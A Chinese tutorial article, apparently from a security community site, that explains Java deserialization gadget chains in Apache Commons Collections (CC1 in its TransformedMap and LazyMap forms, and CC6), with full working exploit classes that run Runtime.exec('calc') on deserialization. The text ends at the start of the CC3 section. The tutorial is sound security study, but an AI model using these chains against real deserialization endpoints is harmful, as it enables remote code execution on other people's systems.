# Java反序列化之CC调用链过程1-7探究详解 - 先知社区

Java反序列化之CC调用链过程1-7探究详解

* * *

# CommonsCollections反序列化：

## 反序列化漏洞原理：

写了一个流程图可供理解：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712234848-9758d9f0-20cb-1.png)

版本：jdk8u65版本（从jdk8u71开始，就有漏洞修复了）

详细配置信息见：[https://xz.aliyun.com/t/12669](https://xz.aliyun.com/t/12669)

## CommonsCollections1：

利用点：

在`commons-collections`包下面有一个`Transformer`类：

可以看到它主要的用途就是接收一个对象，然后调用`transform`方法对对象进行操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712234940-b6331926-20cb-1.png)

于是我们来找一下Transformer的实现类都有哪些：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712234923-ac49c22a-20cb-1.png)

### 失败利用:

我们来看一下NOPTransformer对应的内容是否有我们能够利用的点：

```plain
public class NOPTransformer implements Transformer, Serializable {

    /**
     * Transforms the input to result by doing nothing.
     * 
     * @param input  the input object to transform
     * @return the transformed result which is the input
     */
    public Object transform(Object input) {
        return input;
    }

}
```

可以发现它对应的构造方法只是返回了input的值，并没有什么用，这里我们就利用不了。

再来看一下ConstantTransformer：

```plain
public class ConstantTransformer implements Transformer, Serializable {
    private final Object iConstant;
    public Object transform(Object input) {
        return iConstant;
    }
```

可以发现返回的是一个常量，也没有什么作用。

### 危险利用类：

*   我们可以发现这里接收一个对象，然后进行反射调用，然后对应的方法，参数类型，以及参数都是我们可控的，这里就非常符合我们反序列化漏洞里面的标准：任意方法调用

```plain
public class InvokerTransformer implements Transformer, Serializable {

    /**
     * Transforms the input to result by invoking a method on the input.
     * 
     * @param input  the input object to transform
     * @return the transformed result, null if null input
     */
    public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }
    public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);

        ...
```

#### 利用验证：

我们知道RCE的命令对应的是

```plain
Runtime.getRuntime().exec("calc");
```

然后反射对应的是：

```plain
Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
Class c = Runtime.class;
Method execMethod = c.getMethod("exec",String.class);
execMethod.invoke(r,"calc");
```

因为我们发现的`InvokerTransformer`能够通过反射来调用方法，所以我们尝试能不能用`InvokerTransformer`里面的`transform`来执行命令

```plain
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;

import java.lang.reflect.Method;

public class CC1Test {
    public static void main(String[] args) throws Exception{
//      Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
//      Class c = Runtime.class;
//      Method execMethod = c.getMethod("exec",String.class);
//      execMethod.invoke(r,"calc");

//      危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
//      public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}).transform(r);

    }
}
```

### 调用链：

#### 后半条链：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712234956-bfddba44-20cb-1.png)

*   我们已经找到了InvokerTransformer.transform中能够调用危险方法，所以我们就需要往前找一个能调用transform的类：
*   这里我们要找的就是对应的不同名字调用transform，这样我们就能再往前找不同的类，所以这里transform调用transform的就没有很大的价值了

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235004-c4a559ec-20cb-1.png)

*   然后我们找到了这样一个地方来进行`transform`的调用，如果`valueTransformer`能够控制为我们的`Invokertransformer`，我们就可以利用`checkSetValue`调用后面的危险方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235010-c81586b0-20cb-1.png)

*   所以我们来跟进一下对应的`valueTransformer`：

```plain
protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        super(map);
        this.keyTransformer = keyTransformer;
        this.valueTransformer = valueTransformer;
    }
```

*   因为我们发现`TransformedMap`是一个`protected`方法，所以我们在他自己类中找哪个地方能够调用`TransformedMap`：

```plain
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

*   通过这里我们就可以发现，对应的`valuetransformer`我们可控，可以通过`TranformerMap`类中的`decorate`类传入`invokertansformdMap`，`checkSetValue`内部参数的问题解决了，我们就需要继续寻找调用链，找哪里能够调用`checkSetValue`:
    
*   我们发现`AbstractlnputCheckedMapDecorator`类其实对应的是`TransformedMap`的父类：
    

```plain
public class TransformedMap
        extends AbstractInputCheckedMapDecorator
        implements Serializable {
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235022-cf5d6d7a-20cb-1.png)

```plain
static class MapEntry extends AbstractMapEntryDecorator {

        /* The parent map */
        private final AbstractInputCheckedMapDecorator parent;

        protected MapEntry(Map.Entry entry, AbstractInputCheckedMapDecorator parent) {
            super(entry);
            this.parent = parent;
        }

        public Object setValue(Object value) {
            value = parent.checkSetValue(value);
            return entry.setValue(value);
        }
    }
```

*   Entry其实就是map遍历的时候的一个键值对，map其实我们可以类似理解为一个数组，我们通常把一个entry叫做键值对,这里就是一个遍历map的一个方法：

```plain
for(Map.Entry entry:map.entrySet()){
    entry.getValue();
}
```

*   所以我们可以发现MapEntry类中的`setValue`方法其实就是`Map`里面的setValue方法，这是这里放到MapEntry里面进行了重写，它继承了`AbstractMapEntryDecorator`这个类，这个类又引入了Map.Entry接口，还存在`setValue`方法，所以我们只需要进行常用的Map遍历，就可以调用`setValue`方法,然后调用`checkSetValue`方法:

```plain
public abstract class AbstractMapEntryDecorator implements Map.Entry, KeyValue {

    /** The <code>Map.Entry</code> to decorate */
    protected final Map.Entry entry;

    public AbstractMapEntryDecorator(Map.Entry entry) {
        if (entry == null) {
            throw new IllegalArgumentException("Map Entry must not be null");
        }
        this.entry = entry;
    }

    /**
     * Gets the map being decorated.
     * 
     * @return the decorated map
     */
    protected Map.Entry getMapEntry() {
        return entry;
    }

    //-----------------------------------------------------------------------
    public Object getKey() {
        return entry.getKey();
    }

    public Object getValue() {
        return entry.getValue();
    }

    public Object setValue(Object object) {
        return entry.setValue(object);
    }
```

#### 利用验证：

这里就能够测试一下到此为止我们的调用链是否成立：

```plain
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{
        //Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        //危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
        //public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> map = new HashMap<>();//new一个map
        map.put("key","value");//对map进行赋值
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
        for(Map.Entry entry:transformedmap.entrySet()){//将transformedmap传进去，会自动调用到父类里面的setValue方法：
            entry.setValue(r);
        }
    }
}
```

#### 前半条链：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235051-e0a859a0-20cb-1.png)

然后我们需要找到一个能够遍历`map`的方法，且能把`transformedmap`传进去，最好就是能够找到某个类的`readObject`里面遍历map时调用了`setValue`：

然后结果我们就找到了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235056-e3cf64ca-20cb-1.png)

这里恰好是一个Map.Entry的形式，然后在遍历map以后使用了setValue：

```plain
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
```

那我们就重点来关注这个`AnnotationlnvocationHandler`类中我们有什么可控的点，在他的构造函数中我们可以发现，`Map`我们完全可控，那我们就可以将前面的`transformedmap`构造进去：

但是这里注意一点，这里没有表明`public`类，所以我们只能通过反射来进行获取：

```plain
package sun.reflect.annotation;
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private static final long serialVersionUID = 6182022883658399397L;
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```

```plain
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{
        //Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");

        //危险类利用测试：我们先调用InvokerTransformer的类,传入对应的参数，再找到对应的构造函数
        //public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args)//传参对应的是规定类型的数组，用来存放参数类型和参数值，所以我们要用它给的形式来进行传参；
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});
        HashMap<Object,Object> map = new HashMap<>();//new一个map
        map.put("key","value");//对map进行赋值
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

### EXP问题：

#### `Runtime`类不可实例化：

我们可以看到整条链子我们已经顺下来了，但是我们最后传入的r = Runtime.getRuntime()并没有serializable接口，不能够序列化，所以这里我们要进行反射调用，从Runtime的class属性入手进行反射

```plain
Class c = Runtime.class;
Method getRuntimeMethod = c.getMethod("getRuntime",null);
Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
Method execMethod = c.getMethod("exec",String.class);
execMethod.invoke(r,"calc");
```

然后我们来转化一下，用`InvokerTransformer`类中的`transform`方法来进行构造：

```plain
public Object transform(Object input) {
        if (input == null) {
            return null;
        }
        try {
            Class cls = input.getClass();
            Method method = cls.getMethod(iMethodName, iParamTypes);
            return method.invoke(input, iArgs);

        }
```

```plain
Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);//获取Runtime.getRuntime方法

Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);//调用Runtime.getRuntime方法从而实例化Runtime类

InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});//
invokerTransformer.transform(r);
```

然后我们还可以调用链式结构来优化这个代码：

```plain
public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }

    /**
     * Transforms the input to result via each decorated transformer
     * 
     * @param object  the input object passed to the first transformer
     * @return the transformed result
     */
    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
```

```plain
Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
chainedTransformer.transform(Runtime.class);
```

#### `if`判断进入`setValue`：

我们在`AnnotationvocationHandler`类中的`if`下断点，我们可以发现memberType在这里识别为null，我们就无法进入`if`语句从而导致无法调用setValue方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235121-f290ced6-20cb-1.png)

我们可以看一下调试的结果：

```plain
String name = memberValue.getKey();
Class<?> memberType = memberTypes.get(name);
```

通过查找memberValue里面，先获取他的键值，对应的就是transformedmap里面对应的map，然后再用map中的key当作name查找对应memberType里面的函数名。

```plain
HashMap<Object,Object> map = new HashMap<>();//new一个map
map.put("key","value");//对map进行赋值
Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,invokerTransformer);
```

所以这里我们就要找到一个有函数名的注释类，然后将map中的key改成对应的函数名称：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235130-f7c98618-20cb-1.png)

```plain
HashMap<Object,Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);
        serialize(o);
        unserialize("ser.bin");
```

再进行一次调试我们就发现能够进入if语句了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235136-fbab84d4-20cb-1.png)

#### `transform`中value设置:

我们发现setValue里面并不是我们想要传的值

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235141-fe79957a-20cb-1.png)

我们步入看一下最后value对应的什么值：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235148-02905f22-20cc-1.png)

所以这里需要修改这个值：

这里我们调用这个地方我们可以发现，不管最后transform是什么值，都会返回对应的constant值，所以我们就可以把Runtime设为这个固定值。

```plain
public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
    public Object transform(Object input) {
        return iConstant;
    }
```

```plain
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

这样我们最后的value就固定为Runtime.class了

### EXP(CC1Transformedmap)：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{


//        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象//问题一：r不能序列化，没有继承序列化接口
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");


//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r,"calc");


//        Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//        chainedTransformer.transform(Runtime.class);

//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);


        serialize(o);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }


    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

### EXP(CC1LazyMap):

在调用`tranforms`方法时候，除了能利用`Transformedmap`来进行调用，还可以通过使用`Lazymap`中的get方法来进行调用，然后再从`annotationInvocationHandler`的`invoke`方法中调用`Lazymap`中的`get`方法，再通过`readObject`里面调用代理类代理触发`annotationInvocation`类中的`invoke`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235204-0c0f8ce4-20cc-1.png)

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Method;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{


//        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象//问题一：r不能序列化，没有继承序列化接口
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");


//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r,"calc");


//        Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//        chainedTransformer.transform(Runtime.class);

//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

//        HashMap<Object,Object> map = new HashMap<>();
//        map.put("value","aaa");
//        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);

//        for(Map.Entry entry:transformedmap.entrySet()){
//            entry.setValue(r);
//        }
//        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
//        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
//        annotationInvocationhdlConstructor.setAccessible(true);
//        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);


//设置chainedTransformer在Lazymap中的值
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);

        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

        serialize(o);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }


    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

## CommonsCollections6:

### 调用链：

CC1在jdk的包更新到8u71以后，就对漏洞点进行了修复（`CC1TransformedMap`链去掉了`Map.Entry`的`setValue`方法）（`CC1LazyMap`使用了`put`对类进行传参），因为反序列化不仅对类有依赖，还对外部的CC库，以及jdk版本有依赖，所以这里CC1就并不那么兼容，就引入了`CC6`不受`jdk`版本的限制：

CC6中引用了`HashMap`来进行反序列化链子的构造，通过`HashMap`里面的`readObject`方法来调用里面的`put`方法，然后调用hash方法最后调用`hashCode`方法，如果从`hashCode`里面能找到的一个调用`get`的链，就成功了，这样就不会受到jdk版本的限制：

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235217-13a4fd7c-20cc-1.png)

然后我们在TiedMapEntry中找到了hashCode方法，然后调用getValue()方法，然后再通过map调用LazyMap中的get方法

```plain
public int hashCode() {
        Object value = getValue();
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }
```

```plain
private final Map map;
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
public Object getValue() {
        return map.get(key);
}
```

所以这里我们将TiedMapEntry实例化以后，传入对应的map值为实例化以后的LazyMap，然后再通过Hashmap中的put方法将TiedMapEntry传入。

### EXP问题：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");

        ;


    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

#### 问题一：

因为序列化我们没有必要让他进行命令执行，而hashMap中的put方法会直接调用下去，所以这里我们可以在序列化的时候破环链子的某一个参数，防止他命令执行，然后在执行完put以后再利用反射将参数改回来

这里将LazyMap中对应参数factory要传入的chainedTransformer来进行替换，然后再通过反射将factory的值修改过来：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,new ConstantTransformer(1));


        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");

        Class c = LazyMap.class;
        Field factoryFied = c.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

#### 问题二：

再进行反序列化我们发现还存在问题，断点调试的时候我们可以发现序列化的时候会进行一步key的操作：在序列化的过程中我们可以发现，if语句是可以进入的，会把`TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");`中的key=“aaa"传入put，所以这里再进行反序列化的时候会因为存在key而进不去if语句从而无法调用到我们想要的factory.transform(key)方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230712235231-1c44e3ca-20cc-1.png)

所以我们就可以在put完以后将这个key：aaa删除，让他反序列化的时候还能够进入if语句：

```plain
LazyMap.remove("aaa");
```

### EXP(CC6TiedMapEntry)：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,new ConstantTransformer(1));


        TiedMapEntry tiedMapEntry = new TiedMapEntry(Lazymap,"aaa");

        HashMap<Object,Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry,"bbb");
        Lazymap.remove("aaa");

        Class c = LazyMap.class;
        Field factoryFied = c.getDeclaredField("factory");
        factoryFied.setAccessible(true);
        factoryFied.set(Lazymap,chainedTransformer);

        serialize(map2);
        unserialize("ser.bin");
    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

## CommonsCollections3:

CC3中使用了另外一种方式来进行攻击，在CC1和CC6中，我们可以发现是通过调用命令执行来进行攻击，而这里我们引入一个新的代码执行的方式，通过动态类加载，来进行加载恶意的代码进行攻击。

### 动态类加载：

我们首先来介绍一下动态类加载的流程，在ClassLoader中使用loadClass进行加载:

#### 字节码：

